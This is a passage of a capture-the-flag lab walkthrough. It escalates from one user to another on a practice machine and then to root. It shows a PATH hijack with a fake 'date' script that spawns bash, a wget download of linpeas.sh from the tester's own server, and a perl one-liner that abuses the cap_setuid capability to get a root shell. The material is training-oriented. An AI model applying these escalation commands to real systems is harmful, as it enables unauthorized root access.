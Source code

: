 ```
```export PATH=/tmp:$PATH``` - This way we place /tmp at the highest priority (before other directories), so the ```date``` script will be
found **before the real date** binary

so with ```vim /tmp/date``` write
```
#!/bin/bash
/bin/bash
```
- The shebang is very important in executing scripts from PATH, especially if we're removing the ```.sh``` extension from the name of the file.

run ```chmod +x /tmp/date``` and then execute again teaParty.
This will automatically login us to hatter user.

Running ```id``` gives us the output ```hatter```
#### Privilege Escalation to root

In his ```/home/hatter``` directory we see ```password.txt```, and there's probably root flag. Probably to root user.  

The thing that is extremely strange to me, is that ```root.txt``` is in the ```/home/alice``` directory. It's like it's reversed.  
### Getting the user flag
executing ```cat /root/user.txt``` will give us the user flag... surprisingly...

With the (I hope) final privesc, let's transfer ```linpeas.sh ``` to the machine

I'll be transfering linpeas.sh script for privesc by:

```python -m http.server 8080``` where you have linpeas.sh located.  
I want to wget get this file to /tmp directory, so I'll cd into that  
```cd /tmp```

```wget http://<YOUR_THM_IP>:8080/linpeas.sh```  
```chmod +x linpeas.sh```  

Before executing, we have to delete ```date``` from the tmp because it pauses the ```linpeas.sh``` scan.

This though is not possible, because it was created by ```rabbit``` user xDD. We might again try logging as the rabbit user, delete this file. But because I have hatter password,  I'll just terminate the machine and deploy it again.

```./linpeas.sh```  
We have many findings:
![linpeas1](https://i.imgur.com/1gUyFiT.png)
**But more importantly:**
![capabilities](https://i.imgur.com/92ndhAE.png)

**What are capabilities?**
>It's a more secure SUID mechanism, where we split all possible privileged kernel calls into groups of related functionality, because of that in an attack scenario the attacker will only gain the assigned subset of capabilities, and not the access of the entire system

>The problem with these capabilities on perl is that... there's empty capability (you see ```+ep```?). An empty capability set means that all the capabilities are enabled and the executable runs as the superuser.

> This combined with cap_setuid capability gives a severe opportunity to escalate this privilege

To use this ```setuid+ep``` capability, we can execute:

```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'```  
And with this, we're logged as root. Viewing the flag in /alice/root.txt is now possible

```